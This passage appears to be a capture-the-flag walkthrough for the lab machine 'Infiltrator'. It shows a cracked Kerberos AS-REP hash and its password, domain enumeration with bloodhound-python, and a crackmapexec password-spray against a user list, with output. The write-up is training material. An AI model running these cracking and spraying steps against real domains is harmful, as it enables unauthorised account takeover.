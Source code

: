 ```
WAT?watismypass! ($krb5asrep$23$l.clark@infiltrator.htb@INFILTRATOR.HTB)     
1g 0:00:00:09 DONE (2025-04-17 23:19) 0.1010g/s 1061Kp/s 1061Kc/s 1061KC/s WAYHEY..WASHIDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Here we go, we get `WAT?watismypass!`

Then we can try to use `bloodhound-python` to collect the information of this domain
```
bloodhound-python -u l.clark -p 'WAT?watismypass!' -c All -d infiltrator.htb -ns 10.10.11.31
```
But there is nothing interesting from this user, I guess we can check is there anyone reuse this password.
Firstly, I would try to make a new username list to help us enumerate
```
d.anderson
o.martinez
k.turner
a.walker
m.harris
e.rodriguez

```
Then let's use `crackmapexec` to do this
```
crackmapexec smb 10.10.11.31 -u username.txt -p 'WAT?watismypass!'

SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 


d.anderson@infiltrator.htb account is restricted because of

Logon Hours: The account might be restricted to log in only during specific hours or days.

Logon Workstations: The account might be restricted to log in only from specific workstations or computers.

Account Disabled: The account might be disabled or not allowed to log in.

Password Expiration or Change Requirement: The account might require the password to be changed on the next login, or the password has expired.

Domain Policy: There might be a domain policy in place that restricts the account from logging in under certain conditions (e.g., time of day, specific IP ranges).
```
That means we have to Synchronize time with the target domain
`sudo ntpdate infiltrator.htb`

